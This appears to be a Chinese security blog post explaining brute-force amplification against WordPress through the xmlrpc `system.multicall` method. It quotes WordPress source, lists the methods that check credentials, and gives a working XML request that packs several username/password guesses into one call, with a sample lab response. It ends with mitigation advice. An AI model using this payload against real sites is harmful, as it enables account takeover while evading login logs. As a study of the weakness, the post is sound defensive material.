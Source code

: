 ```yaml
---
layout: post
title: "WordPress 利用 system.multicall RPC进行快速爆破"
tags: [security, web]
---
```


xmlrpc 是 WordPress 中进行远程调用的接口，而使用 xmlrpc 调用接口进行账号爆破在很早之前就被提出并加以利用。近日 [SUCURI](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html) 发布文章介绍了利用 xmlrpc 调用接口中的 `system.multicall` 来提高爆破效率，使得成千上万次的帐号密码组合尝试能在一次请求完成，在一定程度上能够躲避日志的检测。

WordPress 中关于 xmlrpc 服务的定义代码主要位于 `wp-includes/class-IXR.php` 和 `wp-includes/class-wp-xmlrpc-server.php` 中。基类 IXR_Server 中定义了三个内置的调用方法，分别为 `system.getCapabilities`，`system.listMethods` 和 `system.multicall`，其调用映射位于 `IXR_Server` 基类定义中：

{% highlight php %}
function setCallbacks()
{
    $this->callbacks['system.getCapabilities'] = 'this:getCapabilities';
    $this->callbacks['system.listMethods'] = 'this:listMethods';
    $this->callbacks['system.multicall'] = 'this:multiCall';
}
{% endhighlight %}

而基类在初始化时，调用 setCallbacks() 绑定了调用映射关系：

{% highlight php %}
function __construct( $callbacks = false, $data = false, $wait = false )
{
    $this->setCapabilities();
    if ($callbacks) {
        $this->callbacks = $callbacks;
    }
    $this->setCallbacks();  // 绑定默认的三个基本调用映射
    if (!$wait) {
        $this->serve($data);
    }
}
{% endhighlight %}

再来看看 `system.multicall` 对应的处理函数：

{% highlight php %}
function multiCall($methodcalls)
{
    // See http://www.xmlrpc.com/discuss/msgReader$1208
    $return = array();
    foreach ($methodcalls as $call) {
        $method = $call['methodName'];
        $params = $call['params'];
        if ($method == 'system.multicall') {
            $result = new IXR_Error(-32600, 'Recursive calls to system.multicall are forbidden');
        } else {
            $result = $this->call($method, $params);
        }
        if (is_a($result, 'IXR_Error')) {
            $return[] = array(
                'faultCode' => $result->code,
                'faultString' => $result->message
            );
        } else {
            $return[] = array($result);
        }
    }
    return $return;
}
{% endhighlight %}

可以从代码中看出，程序会解析请求传递的 XML，遍历多重调用中的每一个接口调用请求，并会将最终有调用的结果合在一起返回给请求端。

这样一来，就可以将500种甚至是10000种帐号密码爆破尝试包含在一次请求中，服务端会很快处理完并返回结果，这样极大地提高了爆破的效率，利用多重调用接口压缩了请求次数，10000种帐号密码尝试只会在目标服务器上留下一条访问日志，一定程度上躲避了日志的安全检测。

通过阅读 WordPress 中 xmlrpc 相关处理的代码，能大量的 xmlrpc 调用都验证了用户名和密码：

{% highlight php %}
    if ( !$user = $this->login($username, $password) )
        return $this->error;
{% endhighlight %}

通过搜索上述登录验证代码可以得到所有能够用来进行爆破的调用方法列表如下： 

    wp.getUsersBlogs, wp.newPost, wp.editPost, 
    wp.deletePost, wp.getPost, wp.getPosts, 
    wp.newTerm, wp.editTerm, wp.deleteTerm, 
    wp.getTerm, wp.getTerms, wp.getTaxonomy, 
    wp.getTaxonomies, wp.getUser, wp.getUsers, 
    wp.getProfile, wp.editProfile, wp.getPage, 
    wp.getPages, wp.newPage, wp.deletePage, 
    wp.editPage, wp.getPageList, wp.getAuthors, 
    wp.getTags, wp.newCategory, wp.deleteCategory, 
    wp.suggestCategories, wp.getComment, wp.getComments, 
    wp.deleteComment, wp.editComment, wp.newComment, 
    wp.getCommentStatusList, wp.getCommentCount, wp.getPostStatusList, 
    wp.getPageStatusList, wp.getPageTemplates, wp.getOptions, 
    wp.setOptions, wp.getMediaItem, wp.getMediaLibrary, 
    wp.getPostFormats, wp.getPostType, wp.getPostTypes, 
    wp.getRevisions, wp.restoreRevision, blogger.getUsersBlogs, 
    blogger.getUserInfo, blogger.getPost, blogger.getRecentPosts, 
    blogger.newPost, blogger.editPost, blogger.deletePost, 
    mw.newPost, mw.editPost, mw.getPost, 
    mw.getRecentPosts, mw.getCategories, mw.newMediaObject, 
    mt.getRecentPostTitles, mt.getPostCategories, mt.setPostCategories
    
这里是用参数传递最少获取信息最直接的 `wp.getUsersBlogs` 进行测试，将两次帐号密码尝试包含在同一次请求里，构造 XML 请求内容为：

{% highlight xml %}
<methodCall>
  <methodName>system.multicall</methodName>
  <params><param>
    <value><array><data>

      <value><struct>
        <member>
          <name>methodName</name>
          <value><string>wp.getUsersBlogs</string></value>
        </member>
        <member>
          <name>params</name>
          <value><array><data>
            <value><string>admin</string></value>
            <value><string>admin888</string></value>
          </data></array></value>
        </member>
      </struct></value>

      <value><struct>
        <member>
          <name>methodName</name>
          <value><string>wp.getUsersBlogs</string></value>
        </member>
        <member>
          <name>params</name>
          <value><array><data>
            <value><string>guest</string></value>
            <value><string>test</string></value>
          </data></array></value>
        </member>
      </struct></value>

    </data></array></value>
  </param></params>
</methodCall>
{% endhighlight %}

将上面包含两个子调用的 XML 请求发送至 xmlrpc 服务端入口，若目标开启了 xmlrpc 服务会返回类似如下的信息：

{% highlight xml %}
<?xml version="1.0" encoding="UTF-8"?>
<methodResponse>
  <params>
    <param>
      <value>
      <array><data>
  <value><array><data>
  <value><array><data>
  <value><struct>
  <member><name>isAdmin</name><value><boolean>1</boolean></value></member>
  <member><name>url</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/</string></value></member>
  <member><name>blogid</name><value><string>1</string></value></member>
  <member><name>blogName</name><value><string>WordPress 4.3.1</string></value></member>
  <member><name>xmlrpc</name><value><string>http://172.16.96.130/xampp/wordpress-4.3.1/xmlrpc.php</string></value></member>
</struct></value>
</data></array></value>
</data></array></value>
  <value><struct>
  <member><name>faultCode</name><value><int>403</int></value></member>
  <member><name>faultString</name><value><string>用户名或密码不正确。</string></value></member>
</struct></value>
</data></array>
      </value>
    </param>
  </params>
</methodResponse>
{% endhighlight %}

从结果中可以看到在同一次请求里面处理了两种帐号密码组合，并以集中形式将结果返回，通过该种方式可以极大地提高帐号爆破效率。

当然了，这里不仅要讨论如何进行攻击还要考虑如何去防御这种情况。最直接的方式就是直接关闭 xmlrpc 功能（当然了也可以直接删除xmlrpc.php文件），但是 WordPress 并没有在后台提供关闭 xmlrpc 的功能，但是站长用户可以通过插件或者编码的方式来禁用。(插件可以使用 [Disable XML-RPC](https://wordpress.org/plugins/disable-xml-rpc/)）

### 参考链接

* [https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html](https://blog.sucuri.net/2015/10/brute-force-amplification-attacks-against-wordpress-xmlrpc.html)

